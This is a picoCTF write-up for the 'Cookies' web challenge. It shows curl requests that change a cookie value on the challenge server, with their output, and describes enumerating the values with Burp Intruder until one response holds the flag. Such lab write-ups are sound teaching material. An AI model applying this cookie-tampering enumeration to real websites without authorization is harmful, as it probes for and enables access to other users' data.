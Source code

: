 # picoCTF Cookies

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/


after checking out the site, I see that after entering a cookie name the weppapp changes your browser's cookie value based on output. I can see this using curl from the origional request of a known existing cookie, the snickerdoodle:

```bash
└─$ curl 'http://mercury.picoctf.net:17781/check' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://mercury.picoctf.net:17781/' -H 'Connection: keep-alive' -H 'Cookie: name=0' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'|grep '<strong>Title</strong>'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1779  100  1779    0     0  22361      0 --:--:-- --:--:-- --:--:-- 22518
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                                                                                            
```

increasing the browser-cookie value by one I can change what cookie I am seeing on the site:

```bash
curl 'http://mercury.picoctf.net:17781/check' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://mercury.picoctf.net:17781/' -H 'Connection: keep-alive' -H 'Cookie: name=1' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'|grep '<p style="text-align:center; font-size:30px;"><b>'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1780  100  1780    0     0  25578      0 --:--:-- --:--:-- --:--:-- 25797
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>

```


Seeing what is going on I am able to make a burp intruder attack that changes the cookie value, then reviewing the response length, one stands out over the rest, and it also happens to be the flag:

![image](https://user-images.githubusercontent.com/83407557/148654389-12679aba-6b7b-42d1-a77a-58fe3c3895dc.png)
